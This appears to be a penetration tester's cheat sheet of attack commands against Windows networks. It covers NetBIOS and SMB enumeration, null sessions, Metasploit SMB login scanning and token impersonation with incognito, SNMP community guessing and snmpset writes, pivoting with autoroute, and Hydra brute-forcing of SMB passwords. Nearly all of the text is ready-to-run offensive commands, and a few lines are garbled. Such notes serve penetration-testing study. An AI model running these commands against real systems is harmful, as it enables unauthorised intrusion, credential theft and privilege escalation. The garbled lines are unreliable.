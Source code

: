 		nbtstat -A <target IP> - information gathering (Windows)
		nmblookup -A <target IP> - information gathering (Linux)
		nbtscan -v <target IP> - information gathering (Linux)
		nbtscan -v <IP>/subnet - scan entire subnet
		net view <IP> - list domains, computers, resources shared by a computer on the network
		net use <Drive Letter>: \\<IP>\C(or C$,IPC... etc.)
		smbclient -L <IP> - smb connect
		mount.cifs //<IP>/C /media/<Folder> user=,=pass= - navigate target shares
		net use \\<IP>\IPC$ "" /u:"" - Null Session
		winfo <IP> -n - flag -n means to try to establish a null session before gathering information
		DumpSec - Report>Select Computer >> \\<IP>
		enum4linux <IP>
		rpcclient -N -U "" <IP> - if establishes then "help"
		rpcclient > 'enum' for useful commands

		msf> use auxiliary/scanner/smb/smb_login

		nmap --script=smb-enum-users -p 445 <IP> --script-args=smbuser=<username>,smbpass=<password>

		msf> impersonate token:
			use incognito
			list_tokens -u
			impersonate_token <domain>\\<username>


	SNMP:

		UDP 161 - General Messages
		UDP 162 - Trap Messages

		snmpwalk:

			snmpwalk -v 2c <ip> -c public - v means version(2c) c means community string to use(public)
			snmp-mibs-downloader >> comment fourth line of /etc/snmp/snmp.conf (IF RETURNS OID NUMERICALLY)

		snmpset:

			snmpset -v 2c <ip> -c public (OID) s(for STRING) new@new.com


		Finding:

			1. find 139/445 open
			2. scan for 161 - nmap -sU -p 161 <ip>

		Finding communities:

			onesixtyone - onesixtyone -c /usr/share/doc/onesixtyone/dict.txt <ip>
			-or-
			nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes <ip>
			nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-* <ip>  (FIND ALL)


	Scan network from within a host:
		run autoroute -s <IP>(.0)/Subnet
		^Z
		use <IP>canner/portscan/tcp(or udp)


	Hydra brute SMB:
		hydra -L users.txt -P /usr/share/john/password.lst <IP> smb -f -V
	
